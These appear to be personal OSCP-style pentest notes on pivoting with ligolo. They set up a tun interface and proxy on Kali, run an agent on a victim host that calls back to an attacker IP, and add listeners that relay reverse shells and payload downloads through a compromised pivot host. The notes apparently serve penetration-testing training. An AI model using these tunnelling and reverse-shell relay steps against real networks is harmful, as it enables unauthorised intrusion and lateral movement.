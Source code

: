 #pivoting 

```bash
sudo ip tuntap add user kali mode tun ligolo
```

```bash
sudo ip link set ligolo up
```

### Proxy(Listener - Kali)

```bash
~/oscp/linux_tools/lig_lin_proxy -selfcert
```
After session joins

```bash
session
```

```bash
start
```

```bash
sudo ip route add 172.16.8.0/24 dev ligolo
```
##### Change the default port 

```bash
~/oscp/lig_lin_proxy -selfcert -laddr 0.0.0.0:8080
```




### Agent(From the victim)

```powershell
.\agent.exe -connect 192.168.45.221:11601 -ignore-cert
```



### Catching a Reverse shell

- Pivot host is **10.10.136.147**
- Compromised host is **10.10.136.148**
- Kali is **192.168.45.209**
- Conpty port **8080**
- Webserver port **80**

```ligolo
listener_add --addr 0.0.0.0:9001 --to 127.0.0.1:8080 --tcp 
```

```ligolo
listener_add --addr 0.0.0.0:9002 --to 127.0.0.1:80 --tcp
```



